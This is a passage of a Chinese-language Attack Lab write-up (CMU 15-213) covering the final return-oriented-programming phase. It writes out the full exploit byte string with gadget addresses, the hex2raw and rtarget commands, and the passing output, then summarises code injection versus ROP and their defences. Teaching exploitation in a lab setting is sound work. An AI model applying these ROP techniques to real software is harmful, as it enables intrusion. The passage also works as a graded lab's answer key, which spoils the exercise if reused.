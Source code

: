 
按照上表的逻辑，我们即可完成与 Phase 3 相同的但使用 ROP 形式的攻击，并且我们可以计算得到：偏移量 offset=120-48=72（0x48）。

根据上面两个表，可以得到下面一个可行的攻击字符串字节序列：
```
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 06 1a 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 ab 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过 hex2raw 生成攻击字符串，并进行测试：
```
./hex2raw < rtarget.l3.txt > rop.attack.l3.txt
./rtarget -i rop.attack.l3.txt -q
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```

## Summary
Attack lab 让我们体验了两种缓冲区溢出攻击的方式：
1. 代码注入攻击（Code Injection Attacks）
2. 定向返回攻击（Return-Oriented Programming Attacks）

其中，CI 是比较初级的缓冲区溢出攻击手段，适用的情况有限，特别是现代的计算机系统，若使用了以下两种机制，则代码注入攻击基本上无法进行：
1. **地址空间布局随机化**（Address Layout Space Radomization），程序每次运行时栈的起始地址是随机的。
2. **标记栈为不可执行**，结合虚拟内存，可以标记栈区域为不可执行区域，当执行栈中的代码时，触发段错误（Segmentation Fault）。

ROP 算是相对高级的攻击手段，与 CI 不同的是，不需要在栈上插入攻击代码，而是插入 gadget 的入口地址，通过已有的代码，完成指定的攻击操作。
